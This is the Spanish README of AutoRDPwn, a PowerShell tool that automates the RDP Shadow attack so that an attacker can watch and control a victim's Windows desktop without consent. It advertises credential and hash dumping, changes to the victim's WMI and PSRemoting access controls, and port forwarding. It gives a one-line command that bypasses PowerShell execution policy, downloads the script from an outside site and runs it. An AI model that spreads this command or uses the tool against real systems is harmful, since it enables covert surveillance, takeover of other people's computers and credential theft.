 ![AutoRDPwn](https://user-images.githubusercontent.com/34335312/45109339-8b203580-b13f-11e8-9de7-1210114313bb.png)


**AutoRDPwn** es un script creado en Powershell y diseñado para automatizar el ataque **Shadow** en equipos Microsoft Windows. Esta vulnerabilidad permite a un atacante remoto visualizar el escritorio de su víctima sin su consentimiento, e incluso controlarlo a petición. Para su correcto funcionamiento, es necesario cumplir los requisitos que se describen en la guía de uso.


# Requisitos
Powershell 5.0 o superior


# Cambios

## Versión 4.6
• Nueva interfaz de usuario totalmente rediseñada

• Ejecución en memoria mejorada

• Ahora los binarios se descargan en base64 y se generan en local

• Modificación de las ACL de WMI y PSRemoting en la víctima

• Nuevo módulo disponible: Local Port Forwarding

• Nuevo módulo disponible: Powershell Web Server

*El resto de cambios se pueden consultar en el fichero CHANGELOG


# Uso
Esta aplicación puede usarse de forma local, remota o para pivotar entre equipos. 
Gracias a los módulos adicionales, es posible volcar hashes y contraseñas o incluso recuperar el histórico de conexiones RDP.

**Ejecución en una línea:**

powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"

**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Capturas de pantalla
![autordpwn_es1](https://user-images.githubusercontent.com/34335312/49990172-02563880-ff7d-11e8-8031-8ac6fef02107.png)
![autordpwn_es2](https://user-images.githubusercontent.com/34335312/49990175-02563880-ff7d-11e8-801a-849bba9dee76.png)







